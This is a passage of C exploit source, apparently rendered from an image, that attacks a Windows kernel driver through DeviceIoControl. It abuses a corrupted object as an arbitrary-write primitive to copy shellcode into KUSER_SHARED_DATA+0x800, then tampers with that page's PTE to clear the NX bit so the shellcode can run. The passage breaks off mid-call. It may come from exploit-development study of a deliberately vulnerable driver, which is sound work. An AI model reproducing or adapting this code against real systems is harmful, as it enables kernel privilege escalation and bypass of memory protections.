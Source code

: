 ```c
    {
        // Setting the corrupted object to KUSER_SHARED_DATA+0x800 incrementally 9 times, since our shellcode is 9 QWORDS
        // kusersharedData variable, managing the current address of KUSER_SHARED_DATA+0x800, is incremented by 0x8 at the end of each iteration of the loop
        helperobjectArray[index].Name = &kusersharedData;

        // Setting the Name member of the main object to specify what we would like to write
        mainObject.Name = &shellcode[counter];

        // Set the Name member of the "corrupted" object managed by the global array to KUSER_SHARED_DATA+0x800, incrementally
        DeviceIoControl(
            driverHandle,
            0x00222067,
            &helperobjectArray[index],
            sizeof(helperobjectArray[index]),
            NULL,
            NULL,
            &bytesreturnedreadPrimtitve,
            NULL
        );

        // Perform the arbitrary write via "set" to overwrite each QWORD of KUSER_SHARED_DATA+0x800 until our shellcode is written
        DeviceIoControl(
            driverHandle,
            0x00222067,
            &mainObject,
            sizeof(mainObject),
            NULL,
            NULL,
            &bytesreturnedreadPrimtitve,
            NULL
        );

        // Increase the counter
        counter++;

        // Increase the counter
        kusersharedData += 0x8;
    }

    // Print update
    printf("[+] Successfully wrote the shellcode to KUSER_SHARED_DATA+0x800!\n");

    // Taint the PTE contents to corrupt the NX bit in KUSER_SHARED_DATA+0x800
    unsigned long long taintedBits = pteBits & 0x0FFFFFFFFFFFFFFF;

    // Print update
    printf("[+] Tainted PTE contents: %p\n", taintedBits);

    // Leverage the arbitrary write primitive to corrupt the PTE contents

    // Setting the Name member of the corrupted object to specify where we would like to write
    helperobjectArray[index].Name = &shellcodePte;

    // Specify what we would like to write (the tainted PTE contents)
    mainObject.Name = &taintedBits;

    // Set the Name member of the "corrupted" object managed by the global array to KUSER_SHARED_DATA+0x800's PTE virtual address
    DeviceIoControl(
```